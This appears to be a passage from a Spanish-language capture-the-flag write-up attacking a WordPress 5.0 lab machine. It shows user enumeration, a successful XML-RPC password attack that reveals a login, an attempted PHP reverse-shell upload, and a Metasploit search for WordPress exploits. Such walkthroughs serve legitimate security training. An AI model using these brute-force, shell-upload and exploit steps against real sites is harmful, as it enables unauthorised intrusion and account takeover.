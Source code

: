 ````

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 4 user/s
[SUCCESS] - kwheel / cutiepie1
````
Entramos al panel de login que está más abajo en la web con las credenciales del usuario y el password y listo, estamos dentro.

Pero el usuario solo tiene privilegios para imagenes

Ahora que estamos dentro vamos a intentar meter una reverse shell yo he sacado la mia de:  
Enlace reverse shell: [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
Al subirla nos da un error:
````bash
“wordpres.php” has failed to upload.
Sorry, this file type is not permitted for security reasons.
````
Despues de estar rato buscando en subdirectorios sin exito o buscar otros posibles usuarios he ido a mirar la version del wordpress que es 5.0, entonces he usado msfconsole a ver si encontraba algo 

````
sudo msfconsole 

smsf6 > search Wordpress 5.0

Matching Modules
================

   #   Name                                                     Disclosure Date  Rank       Check  Description
   -   ----                                                     ---------------  ----       -----  -----------
   0   exploit/multi/http/wp_crop_rce                           2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1   exploit/unix/webapp/wp_property_upload_exec              2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability
   2   exploit/multi/http/wp_plugin_fma_shortcode_unauth_rce    2023-05-31       excellent  Yes    Wordpress File Manager Advanced Shortcode 2.3.2 - Unauthenticated Remote Code Execution through shortcode
   3     \_ target: PHP                                         .                .          .      .
   4     \_ target: Unix Command                                .                .          .      .
   5     \_ target: Linux Dropper                               .                .          .      .
   6     \_ target: Windows Command                             .                .          .      .
   7     \_ target: Windows Dropper                             .                .          .      .
   8   exploit/multi/http/wp_litespeed_cookie_theft             2024-09-04       excellent  Yes    Wordpress LiteSpeed Cache plugin cookie theft
   9     \_ target: PHP In-Memory                               .                .          .      .
   10    \_ target: Unix In-Memory                              .                .          .      .
   11    \_ target: Windows In-Memory                           .                .          .      .
````